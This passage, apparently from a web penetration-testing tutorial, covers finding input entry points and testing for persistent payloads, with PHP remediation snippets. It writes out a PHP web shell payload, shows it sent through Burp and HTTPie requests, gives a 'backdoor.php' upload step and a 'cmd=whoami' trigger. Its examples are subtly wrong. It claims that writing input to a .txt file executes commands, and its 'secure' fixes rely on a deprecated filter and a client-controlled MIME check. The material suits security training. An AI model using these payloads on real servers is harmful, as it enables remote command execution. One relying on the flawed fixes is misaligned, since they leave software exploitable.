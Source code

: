 **Example Entry Points**:
- URL: `http://example.com/profile?bio=test`
- Form: `<input name="avatar">`
- API: `POST /api/upload` with `{"file": "data"}`

**Remediation**:
- Validate input types:
  ```php
  if (!in_array($_FILES['file']['type'], ['image/jpeg', 'image/png'])) die("Invalid file");
  ```
- Sanitize stored data:
  ```php
  $bio = htmlspecialchars($_POST['bio'], ENT_QUOTES, 'UTF-8');
  ```

**Tip**: Save the entry point list in a report.

### 2. Test for Persistent Payloads

**Objective**: Verify if user input can inject persistent malicious payloads.

**Steps**:
1. Identify storage inputs:
   - Look for fields like user bios, comments, or file uploads.
2. Inject payloads:
   - Use Burp Repeater:
     ```http
     POST /profile HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded
     bio=<?php system($_GET['cmd']); ?>
     ```
   - Use HTTPie:
     ```bash
     http POST http://example.com/profile bio="<?php system($_GET['cmd']); ?>"
     ```
3. Check persistence:
   - Visit profile page or trigger stored data.
   - Test: `http://example.com/profile?cmd=whoami`.
4. Test file uploads:
   - Upload: `backdoor.php` with `<?php system($_GET['cmd']); ?>`.

**Example Vulnerable Code (PHP)**:
```php
$bio = $_POST['bio'];
file_put_contents("user_bio.txt", $bio);
```
Test: `bio=<?php system($_GET['cmd']); ?>`
Result: Executes `whoami`.

**Example Secure Code (PHP)**:
```php
$bio = filter_var($_POST['bio'], FILTER_SANITIZE_STRING);
file_put_contents("user_bio.txt", $bio);
```
Test: No execution.

